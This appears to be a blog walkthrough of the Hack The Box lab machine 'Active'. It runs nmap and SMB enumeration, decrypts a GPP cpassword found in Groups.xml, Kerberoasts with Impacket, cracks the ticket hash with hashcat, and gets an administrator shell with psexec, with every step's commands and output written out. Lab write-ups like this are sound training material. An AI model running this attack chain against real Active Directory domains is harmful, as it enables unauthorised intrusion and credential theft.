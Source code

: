 ```yaml
---
layout: post
title: "HTB-Active"
categories: HTB-Active
---
```


![active](/assets/img/active/active1.png)


Active is a box from TJNull's OSCP list, its one of the HTB 'retired' list judged
 a bit more challenging than the OSCP but good practice.
It's a good introduction to Active Directories, and making use of the Impacket toolbox.

As always, nmap first...


<h3>Nmap</h3>
`nmap -sV -Pn -p- 10.10.10.100 |tee -a act.txt`

```

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-01 23:25:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
49180/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows


```
<hr width="250" size="6">



<h3>SMB Enumeration</h3>

Enum4linux, is a handy smb enumeration tool, the results here give us a springboard for further enumeration.

`enum4linux 10.10.10.100`

```

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available

```

More interesting information is found...

```

//10.10.10.100/Replication      Mapping: OK, Listing: OK

```


With some shares listed, we can use smbmap and smbclient to invstigate.

`smbmap -H 10.10.10.100` gives us a little more...

![smbmap](/assets/img/active/active-smbmap1.png)

We have the domain name confirmed as `active.htb` and so update the /etc/hosts file accordingly.

Smbclient is a good tool for manually enumerating the server, lets have a look at the Replication share...

`smbclient //10.10.10.100/Replication`

![smbclient1](/assets/img/active/active-smbclient1.png)


Further digging leads to a file Groups.xml which we can retrieve with smbclient.

![smbclient-groupsxml](/assets/img/active/active-smbclient-groupsxml.png)

Groups.xml gives us some credentials

```

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

```
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

It looks like the account is not disabled, so we can try to use it, if we can decrypt it.


Its a 'group policy preferences' encryption, Kali has a handy tool to decrypt it.
gpp-decrypt works...

```

gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18

```
so...
`active.htb\SVC_TGS`
`GPPstillStandingStrong2k18`

we can try these creds in smbclient to see what else we can find...

`smbclient -U SVC_TGS //10.10.10.100/Users`

We can browse to and 'get' user.txt.

![usertxt](/assets/img/active/active-smbclient-usertxt.png)

<hr width="250" size="6">

Now I need to gain access and escalate privileges.

Fortunately Impacket has a set of tools that can help.



<h3>Impacket Tools</h3>

```

python GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18

```

![getuserspn](/assets/img/active/active-getuserspn.png)

I copy the hash to textfile 'hash' and use hashcat with rockyou.txt to break it.

`hashcat -m 13100 hash.txt -a 0 /home/sassuwunnu/wordlists/rockyou.txt --force`

we get the password `Ticketmaster1968`

Before exploring other avenues of access, I quickly try the creds Administrator/Ticketmaster1968
with smbclient.

```

root@kali:~/HTB/vip/active# smbclient -UAdministrator //10.10.10.100/Users
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 15:39:20 2018
  ..                                 DR        0  Sat Jul 21 15:39:20 2018
  Administrator                       D        0  Mon Jul 16 11:14:21 2018
  All Users                         DHS        0  Tue Jul 14 06:06:44 2009
  Default                           DHR        0  Tue Jul 14 07:38:21 2009
  Default User                      DHS        0  Tue Jul 14 06:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 05:57:55 2009
  Public                             DR        0  Tue Jul 14 05:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 16:16:32 2018

                10459647 blocks of size 4096. 4925665 blocks available
smb: \> cd administrator
smb: \administrator\> cd desktop
smb: \administrator\desktop\> ls
  .                                  DR        0  Mon Jul 30 14:50:10 2018
  ..                                 DR        0  Mon Jul 30 14:50:10 2018
  desktop.ini                       AHS      282  Mon Jul 30 14:50:10 2018
  root.txt                            A       34  Sat Jul 21 16:06:07 2018

                10459647 blocks of size 4096. 4925665 blocks available
smb: \administrator\desktop\> get root.txt
getting file \administrator\desktop\root.txt of size 34 as root.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \administrator\desktop\> exit

```

<hr width="250" size="6">

Looks like we didn't need to actually get a command shell on the target at all to retrieve the
user and root flags.


I can't just leave it there though, got to get a shell...

Again Impacket's tools make it simple in this situation.

```


python ~/psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file GLVXXcRb.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service UXYD on 10.10.10.100.....
[*] Starting service UXYD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```



:)


